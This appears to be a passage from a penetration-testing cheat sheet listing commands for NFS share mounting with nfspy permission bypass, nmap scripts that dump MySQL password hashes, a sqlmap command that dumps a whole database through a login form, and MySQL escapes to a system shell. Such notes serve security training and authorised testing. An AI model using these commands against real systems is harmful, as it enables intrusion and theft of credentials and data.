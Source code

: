 Show all mounts

```
showmount -e $ip
```

Mount a NFS share

```
mount $ip:/vol/share /mnt/nfs
```

Use nfspy to mount a share. Will get around permission errors

```
nfspysh -o server=$ip:/home/vulnix/
```

### &#x20;<a href="#undefined-1" id="undefined-1"></a>

### &#x20;<a href="#undefined-1" id="undefined-1"></a>

### &#x20;<a href="#mysql" id="mysql"></a>

### Mysql <a href="#mysql" id="mysql"></a>

```
nmap -sV -Pn -vv --script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $ip -p 3306
```



**Nmap scan**

```
nmap -sV -Pn -vv -script=mysql* $ip -p 3306
```



**Vuln scanning:**

```
sqlmap -u 'http://$ip/login-off.asp' --method POST  --data 'txtLoginID=admin&txtPassword=aa&cmdSubmit=Login' --all --dump-all
```

If Mysql is running as root and you have access, you can run commands:

```
mysql> select do_system('id');
mysql> \! sh
```



**Enumerate MSSQL Servers on the network**

```
msf > use auxiliary/scanner/mssql/mssql_ping
nmap -sU --script=ms-sql-info $ip
```
